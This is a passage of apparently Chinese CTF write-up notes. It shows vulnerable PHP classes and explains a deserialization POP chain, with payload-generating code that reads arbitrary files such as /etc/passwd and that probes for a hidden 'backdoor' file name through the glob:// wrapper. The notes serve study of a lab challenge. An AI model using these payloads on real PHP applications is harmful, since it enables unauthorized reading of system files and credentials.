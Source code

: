 		      public function __destruct(){
		          global $CanRead;
		          // var_dump($name);
		          if(strstr($name, 'backdoor')!==false){
		              die('try again');
		          }
		          if($CanRead){
		              echo(file_get_contents($this->name));
		          }
		      }
		  }
		  class Fun{
		      public $secret = 'nohint.txt';
		      public function __wakeup(){
		          // echo $this->secret;
		      }
		      
		      public function __toString(){
		          global $CanRead;
		          $CanRead = true;
		          return (new Funny($this->secret))->name;
		      }
		  }
		  ```
	- 利用POP链读取任意文件
	  id:: 644a346b-a944-4ecb-a400-794cce1e04b1
		- 首先让`CanRead`为true的链是这个：`Fun::__wakeup --> Fun::__toString --> $CanRead = true;`
			- 虽然在让`CanRead`为true时就可以读取文件，但是这里无法绕过`backdoor`的限制，不选择使用
		- 之后简单地让`Funny`反序列化就行
		- payload生成
			- ```php
			  // Fun::__wakeup --> Fun::__toString --> $CanRead = true;
			  
			  $fun1 = new Fun();
			  $fun1 -> secret = new Fun();
			  $fun1 -> secret -> secret = "/etc/passwd";
			  $funny = new Funny($_GET["file"]);
			  
			  
			  echo base64_encode(serialize([$fun1, $funny]));
			  
			  ```
	- 利用glob判断文件是否存在
		- scandir在某些配置下可以接受`glob://`伪协议，读取结果是glob对应的所有文件
		- 所以我们可以通过`glob://`伪协议加上`backdoor*.php`这样的glob判断对应的glob存不存在
		- 所以可以从`backdoor_`开始一位一位往后猜
		- 首先可以通过这个生成利用`SFile`调用`scandir`的payload
		  id:: 644a3616-7de8-4241-822d-a5bb9495f5f6
			- ```php
			  $fun = new Fun();
			  $fun -> secret = new SFile($_GET["file"]);
			  
			  echo base64_encode(serialize($fun));
			  